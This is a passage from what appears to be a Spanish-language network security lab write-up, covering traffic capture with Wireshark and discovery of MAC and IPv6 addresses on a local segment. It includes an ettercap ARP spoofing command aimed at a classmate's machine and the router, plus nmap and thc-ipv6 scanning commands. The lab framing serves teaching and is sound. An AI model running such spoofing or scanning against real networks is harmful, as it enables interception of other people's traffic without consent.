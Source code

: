 Para realizar este apartado correctamente debemos instalar wireshark en nuestro equipo. Este programa está disponible para todos los sistemas operativos.

A continuación realizamos un ataque de ARP Spoofing:

```shell
ettercap -i ens33 -Tq -P remote_browser -w /home/lsi/Escritorio/archivo -M arp:remote /ip compañero// /ip router//
```

Mientras que el la víctima usa un navegador de texto (como lynx).

Después se exporta el archivo a nuestro equipo y se abre con Wireshark.
##### c) Obtenga la relación de las direcciones MAC de los equipos de su segmento. 

Para obtener la tabla de las direcciones MAC de la máquina se ejecuta el comando:

```shell
arp -a
```

Y para obtener las MACs de las máquinas de la red usamos:

```shell
ping -b 10.11.49.255 #No recomendable
```

o:

```shell
nmap -sP 10.11.48.0/23
```

##### d) Obtenga la relación de las direcciones IPv6 de su segmento. 

Para ehacerlo por direct link ejecutamos:

```shell
ping6 -I ens33 -c 3 ff02::1
```

y obtenemos la tabla de relaciones con:

```shell
ip -6 neigh
```

Otra opción es usando ThcIPv6:

```shell
apt install thc-ipv6
```

Y usamos alive6:

```shell
atk6-alive6 ens33
```

##### e) Obtenga el tráfico de entrada y salida legítimo de su interface de red ens33 e investigue los servicios, conexiones y protocolos involucrados. 

